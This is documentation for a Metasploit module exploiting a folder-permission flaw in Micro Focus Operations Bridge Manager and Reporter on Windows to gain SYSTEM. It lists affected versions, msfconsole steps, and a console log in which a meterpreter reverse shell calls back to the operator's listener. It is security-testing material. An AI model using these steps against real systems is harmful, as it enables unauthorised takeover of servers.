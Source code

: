 ## Vulnerable Application

This module exploits an incorrectly permissioned folder in Micro Focus Operations Bridge Manager and Operations Bridge Reporter.

An unprivileged user (such as Guest) can drop a JSP file in an exploded WAR directory and then access it without authentication by making
a request to the OBM / OBR server.
This will result in automatic code execution as SYSTEM. This module has been tested on OBM 2020.05 and 2019.11,
but it should work out of the box on earlier versions too.

According to Micro Focus the vulnerable versions are:

* Operations Bridge Manager versions: 2020.05, 2019.11, 2019.05, 2018.11, 2018.05, versions 10.6x and 10.1x and older versions
* Operations Bridge (containerized) versions: 2019.11, 2019.08, 2019.05, 2018.11, 2018.08, 2018.05, 2018.02, 2017.11
* Operations Bridge Reporter versions: 10.40 and possibly earlier

Installation docs are available at:

* https://docs.microfocus.com/itom/Operations_Bridge_Manager:2020.05
* https://docs.microfocus.com/itom/Operations_Bridge_Reporter:10.40/Home

Vulnerable versions of the software can be downloaded from Micro Focus website by requesting a demo.

Only the Windows version of the product is affected.

All details about these vulnerabilities can be obtained from the advisory:

* https://github.com/pedrib/PoC/blob/master/advisories/Micro_Focus/Micro_Focus_OBM.md
* https://github.com/pedrib/PoC/blob/master/advisories/Micro_Focus/Micro_Focus_OBR.md

## Verification Steps

1. Install the application
2. Start msfconsole
3. `use exploit/windows/local/microfocus_operations_privesc.rb`
4. `set target TARGET`
5. `set session SESSION`
6. `set lhost YOUR_IP`
7. `run`
8. You should get a shell.

## Scenarios

```
msf exploit(multi/handler) > use exploit/windows/local/microfocus_operations_privec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf exploit(windows/local/microfocus_operations_privec) > set lhost 10.0.0.1
lhost => 10.0.0.1
msf exploit(windows/local/microfocus_operations_privec) > set lport 4499
lport => 4499
msf exploit(windows/local/microfocus_operations_privec) > set session 3
session => 3
msf exploit(windows/local/microfocus_operations_privec) > run

[*] Started reverse TCP handler on 10.0.0.1:4499
[*] JSP dropped, calling it @ https://127.0.0.1:443/topaz/LB_Verify.jsp
[*] Sending stage (175174 bytes) to 10.0.0.206
[*] Meterpreter session 4 opened (10.0.0.1:4499 -> 10.0.0.206:65068) at 2021-01-29 16:00:43 +0700

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
